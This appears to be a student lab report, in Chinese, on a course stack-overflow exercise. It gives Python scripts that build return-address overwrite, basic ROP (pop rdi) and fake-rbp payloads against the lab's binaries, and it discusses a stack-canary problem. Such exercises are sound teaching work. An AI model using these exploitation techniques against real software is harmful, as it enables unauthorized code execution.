



# 栈溢出攻击实验

### 黄子谦 2024201641
## 题目解决思路


### Problem 1: 
- **分析**：本题是一个基础的栈溢出实验，甚至不涉及ROP链。分析可知，最佳攻击机会就是利用func函数的漏洞，加之strcpy的特性，构造一个字符串输入，其中8字节覆盖buffer，8字节覆盖原rbp，之后8字节用于控制返回地址，跳转到func1。
- **解决方案**：
```python
padding = b"A" * 16
func1_address = b"\x16\x12\x40\x00\x00\x00\x00\x00"  # 小端地址
payload = padding+ func1_address
with open("ans1.txt", "wb") as f:
    f.write(payload)
print("Payload written to ans1.txt")
```
- **结果**：



### Problem 2:
- **分析**：这道题初看没有头绪，主要在于还没有见过此类题目。首先通过IDA工具进行一波反编译,得到了关键的几个函数。这里不难发现，本题即使跳转到func2，也要求edi的值必须是1016(0x3f8)。
```c
void __cdecl __noreturn func2(int x)
{
  if ( x != 1016 )
  {
    printf("I think that you should give me the right number!\n");
    exit(0);
  }
  printf("Yes!I like ICS!\n");
  exit(0);
}
```
- **解决方案**： 参考师兄所给的CTF Wiki,在基础ROP中找到了思路。我们可以通过pop_rdi函数中中留下的pop_rdi ret 这两段关键的连续指令实现攻击。即先填充buffer和rbp（1-15字节），然后第16-23字节先控制代码返回到pop %rdi的位置，执行这条指令，让%edi恰为输入的第24-27个字节，再在第33-40字节控制ret到func2即可。
- 具体如下:
```python
padding = b"A" * 16
pop_rdi_addr = b"\xc7\x12\x40\x00\x00\x00\x00\x00"
rdi_value = b"\xf8\x03\x00\x00\x00\x00\x00\x00"
func2_addr = b"\x16\x12\x40\x00\x00\x00\x00\x00"
payload = padding + pop_rdi_addr + rdi_value + func2_addr
with open("ans2.txt", "wb") as f:
    f.write(payload)
print("Payload written to ans2.txt")
```

- **结果**：



### Problem 3: 
- **分析**：思考时间约为两个半小时，的确是最难的题目没有之一。虽然有了上一问ROP基础知识的加持，但本题缺少直接的pop %rdi ret,也难以构造类似的代码。加之程序中有大量有关%rax的操作，更是让人头晕目眩，痛不欲生。
- 起初，看到jmp_x中有jmp *rax的操作，一度想过在输入中写入shellcode来强制执行赋值操作，但以失败告终。之后又尝试利用jmp_xs中对rsp的保存特性，加之该函数自带的+0x10特性，能够自然讲rax对齐到func的栈顶。我到现在都觉得这是一个很有用的点，但当时反复分析都没有结果。
- **解决方案**：CTF的题目往往只需逼出输出即可，至于程序的警告往往可以忽略。加之反编译代码明牌指出，虽然判定了一次是否为114，但最终的“114”是固定的输出内容，也就是说，只需要让程序跳转到输出命令即可。但是，如果只是简单跳转却是太天真了，这道题目复杂在如果随便填充一个rbp值，极大概率导致func2的代码无法正确执行，因为其中有对rbp相对位置内存的读写。也就是说，我还需要给定一个合理有效的假rbp地址。
于是这里我选择创建一个无ASLR的环境，关闭栈随机化并在gdb中运行调试（在main处打断点），得到栈空间的分布与执行到main函数时各个寄存器的值（如下图所示），从而取得一个比较稳妥的rbp值。

- 然而事情还没有结束，如果仿照之前的python代码写，用多段字符串相加成大字符串的策略，通过gdb调试发现会导致padding的rbp值严重不准确（可能是因为其中\x00等字节在打包时出现了一些意料之外的情况），出现bus报错。这里参考Gemini的建议，使用结构体完成padding.
```python
import struct

target_addr = 0x40122b 
fake_rbp = 0x7fffffffd000 
padding = b'A' * 32
payload = padding + struct.pack('<Q', fake_rbp) + struct.pack('<Q', target_addr)

with open("ans3.bin", "wb") as f:
    f.write(payload)

print(f"Payload written to ans3.bin.Fake RBP: {hex(fake_rbp)}, Target: {hex(target_addr)}")
```


- **结果**：



### Problem 4: 
- **分析**：程序在main,func,func1等等函数栈帧中的rbp-8h的位置，读取内存并放置了金丝雀，用来防止栈溢出的情况发生。然而，作为米哈游研发的一款开放世界探索游戏，《原神》吸引了无数玩家来到提瓦特大陆，而项目组也慷慨大方地准备了大量原石回馈给玩家，在原石面前，这些保护都是徒劳的。
  
- 本题的核心就是输入一个比0xfffffffe还要大的无符号int数，那么显然只有那一个答案。所谓满招损，只有以小博大，才能以柔克刚。
- **解决方案**：payload如下图所示
- **结果**：

## 思考与总结

此次实验是很基础的攻击实验，覆盖了栈溢出，ROP链等基本操作，也有一些进阶的技巧。总思考时长约5小时，主要集中在problem3上。总体设计得还是很有趣的，在IDA工具的强大加持下也轻松了不少。

## 参考资料
[1]基本ROP.CTF Wiki.https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/basic-rop/
[2]1.6 反汇编静态分析工具IDA.C++反汇编与逆向分析技术揭秘（第2版） (2021, 机械工业出版社) - [安全技术大系] 钱林松,张延清.

